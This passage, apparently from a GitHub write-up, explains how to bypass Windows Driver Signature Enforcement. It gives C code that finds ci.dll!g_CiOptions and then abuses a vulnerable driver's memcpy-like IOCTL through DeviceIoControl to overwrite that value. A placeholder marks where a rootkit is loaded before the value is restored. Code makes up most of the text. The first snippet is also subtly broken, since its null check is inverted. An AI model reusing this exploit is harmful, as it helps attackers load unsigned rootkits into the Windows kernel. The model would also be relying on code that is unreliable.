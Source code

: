 An example code how to get a DSE offset:
```c
HMODULE CiHandle = LoadLibraryExA("ci.dll", NULL, DONT_RESOLVE_DLL_REFERENCES);
if(!CiHandle) {
  return -1;
}
PBYTE CiInitializeOffset = (PBYTE)GetProcAddress(CiHandle, "CiInitialize");
if(CiInitializeOffset == NULL) {
  ULONG64 Address = (ULONG64)(CiInitializeOffset - (PBYTE)CiHandle + baseAddressKernel);
  printf("DSE: %p\n",(Address+gCiOptionsOffset)); //You need to find de g_CiOptions
  return 0;
} else {
  return -1;
}
```
Its use ci.dll!CiInitialize because its nearest memory address to g_CiOptions of DSE

After calculate the offset of a DSE, to send the payload its required communicate with a Driver and exploit using the IOCTL found, after have a symbolic link and MajorFunction

So you can use a Windows API `CreateFile` and `DeviceIoControl` to estabilish communication and send the data to IOCTL found in driver, exploiting a memcpy-like function.

```c
#define IOCTL_CODE 0xC3502808; // IOCTL Code
typedef struct _MemcpyLikeFunc { // Struct to send our data
	ULONG64 dest;
	ULONG64* src;
	DWORD size;
} MemcpyLikeFunc;
...
MemcpyLikeFunc gdrvStruct; //Create struct
gdrvStruct.dest = gCiOptionsAddress; //ci.dll!g_CiOptions
gdrvStruct.size = 1; // 1 byte legnth
gdrvStruct.src = (ULONG64*)0xe; //TestSigning Mode 
HANDLE HandleDriver = CreateFile(L"\\\\.\\GIO", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if(!HandleDriver) {
  return -1;
}
BYTE buff[0x30] = NULL;
DeviceIoControl(HandleDriver, IOCTL_CODE, (LPVOID)&gdrvStruct, sizeof(gdrvStruct), (LPVOID)buff, sizeof(buff), NULL, NULL);
... //rootkit load here
gdrvStruct.src = (ULONG64*)0x6; //Enable DSE to avoid KeBugCheck routine
DeviceIoControl(HandleDriver, IOCTL_CODE, (LPVOID)&gdrvStruct, sizeof(gdrvStruct), (LPVOID)buff, sizeof(buff), NULL, NULL);
CloseHandle(HandleDriver);
```
To check if DSE status you can use WinDBG attached to a kernel with with the following command:

```
kd> dt ci.dll!g_CiOptions L1
<AddressHere> 0xe
```

